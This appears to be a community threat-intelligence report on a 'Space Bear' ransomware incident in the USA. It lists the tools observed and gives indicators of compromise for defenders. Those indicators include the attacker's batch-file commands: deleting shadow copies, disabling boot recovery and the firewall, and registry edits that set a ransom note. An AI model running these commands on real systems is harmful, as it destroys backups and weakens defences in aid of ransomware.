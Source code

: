 # Community Report 008 - Space Bear September 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Space Bear
```
---
### Incident Details
```
- Time of Incident: September 2025
- Victim Sector: N/A
- Victim Country: USA
- Victom Size: N/A
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|  |  | Defender Control |  |  |  | bcedit |  |
|  |  |  |  |  |  | fsutil |  |
|  |  |  |  |  |  | netsh |  |
|  |  |  |  |  |  | wmic |  |
|  |  |  |  |  |  | VmConnect  |  |
|  |  |  |  |  |  | vssadmin |  |

---
### Indicators of Compromise (IOCs)
```
Process Chain / Command Lines:

- C:\driver\backup.bat
  - wmic SHADOWCOPY DELETE
  - vssadmin  Delete Shadows /All /Quiet
  - bcdedit  /set {default} bootstatuspolicy ignoreallfailures
 

- C:\driver\SCdel.bat
  - vssadmin delete shadows /all
  - netsh advfirewall set allprofiles state off

- C:\driver\LockScreen.bat
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticecaption /t REG_SZ /d "ATTENTION!!! Read Before Login" /f
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticetext /t REG_SZ /d "Your system has been hacked !!! Your system files are encrypted and uploaded to our servers. An attempt to recover files on your own will result in their complete loss. You urgently need to notify the management of your company about the incident. Mail for communication: [REDACTED] ONLY WE have the recovery keys, before agreeing on the cost from the data recovery companies, ask OUR price" /f

Staging:
- C:\driver\

Ransomware Binary:
- C:\driver\mkp_visual.exe
```
---
#### Any Related Sources
| Date Published | Report |
|---|---|
| N/A | N/A |
---
#### Summary Diagram
```mermaid
flowchart TD;
    A[Space Bear] -->|target| B(Geo: USA);
    B --> C{Tools};
    C -->|Defense Evasion| D[Defender Control];
    C -->|LOLBAS| E[bcedit
    fsutil
    netsh
    WMIC
    VmConnect
    Vssadmin];
```
